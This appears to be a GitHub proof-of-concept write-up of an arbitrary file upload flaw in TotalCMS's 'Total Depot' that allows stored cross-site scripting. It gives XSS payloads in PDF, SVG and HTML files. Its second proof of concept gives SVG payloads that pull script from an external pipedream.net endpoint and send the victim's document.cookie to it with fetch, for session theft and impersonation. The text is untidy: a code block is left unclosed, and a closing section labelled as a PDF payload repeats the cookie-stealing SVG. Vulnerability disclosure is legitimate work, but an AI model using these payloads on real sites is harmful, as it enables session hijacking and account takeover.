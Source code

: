 # TotalCMS Arbitrary File Upload - XSS and steal cookies

## Author: (Sergio)

**Description:** TotalCMS is affected by Arbitrary File Upload - XSS vulnerability which allows Cross-Site Scriting (XSS) and also stealing session cookies

**Attack Vectors:** A vulnerability in "Total Depot" file upload sanitation allows you to upload a PDF / SVG /HTML file with hidden alert Cross-Site scripting (XSS) and steal the user cookies.

---

I am going to do 2 PoCS:
### - POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files

### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.


We start with the first PoC:

### POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files


When logging into the admin panel (https://www.totalcms.co/demo/total-cms/admin/), we will go to the "Total Depot" off the Administration Site and we upload the PDF/ SVG/ and HTML files with the hidden XSS.

There is the payloads:

### XSS PDF Payload:

It is an XSS payload generated with the JS2PDFInjector tool and a js payload that contains the following content:

```js
app.alert("XSS");
```

### SVG Payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.location);
   </script>
</svg>
```

### HTML Payload:

```js
<html>
	<script>
		alert(document.cookie);
	</script>
</html>
```


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/59567372-3336-4efd-aa24-2293ee2018c3)



![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/bfbddc70-9021-4fdb-9ed5-63eed29f25ce)


Once uploaded, if we click on the link we can see the path where they are stored:

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eedf4cdb-6401-4e64-8cab-479f9cedfcec)

PATH:


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/fc975779-4e50-4408-8947-42927049faf1)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/9dec0ba5-17e9-4ddb-b917-2657b1ee21ed)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8a1be3fe-bbb8-47e3-8d4f-5933df2af82a)


And this is the result with the Cross-Site Scripting (XSS) of the 3 types of files and with the user's cookies:

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f5ef6c07-c3ee-44fd-b999-266a654d8d29)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ce05700f-1dda-4275-a40a-1944bef4bb36)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8e84bc6e-e5f0-43b5-9f63-b93a41167baa)



We continue with the second PoC:

### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.

We perform a test to see if we have communication with an external server.

There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script xlink:href="https://enbjn0l9vbowi.x.pipedream.net/" />     
<script>       
//<![CDATA[         
alert("XSS");       
]]>     
</script>   
</svg>
```

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eaa232df-c43d-48a7-a75a-653b86f55f9f)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ffd7cced-e6a5-4034-ace5-8e2729523f85)


As we see in the pipedream Request, we have obtained the request correctly.

We modify the payload to steal cookies and send them to the pipedream Request, so that we can impersonate the user.
There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script>
  fetch('https://enbjn0l9vbowi.x.pipedream.net/', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>   
</svg>


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f4ac2d48-f957-4c5d-a173-053ba3097aec)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/278638ac-2794-4c88-a165-01914e18d449)


As we see in the image, we have correctly obtained the user's session cookies.








There is the payloads:

### XSS PDF Payload:

It is an XSS payload generated with the JS2PDFInjector tool and a js payload that contains the following content:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script>
  fetch('https://enbjn0l9vbowi.x.pipedream.net/', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>   
</svg>
```


We upload the file to the server as I explained previously and execute it:

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/4ee039ee-a797-4024-b959-2e5623f5c2a9)












</br>

### Additional Information:
[http://www.cmsmadesimple.org/](https://www.totalcms.co/)

https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html

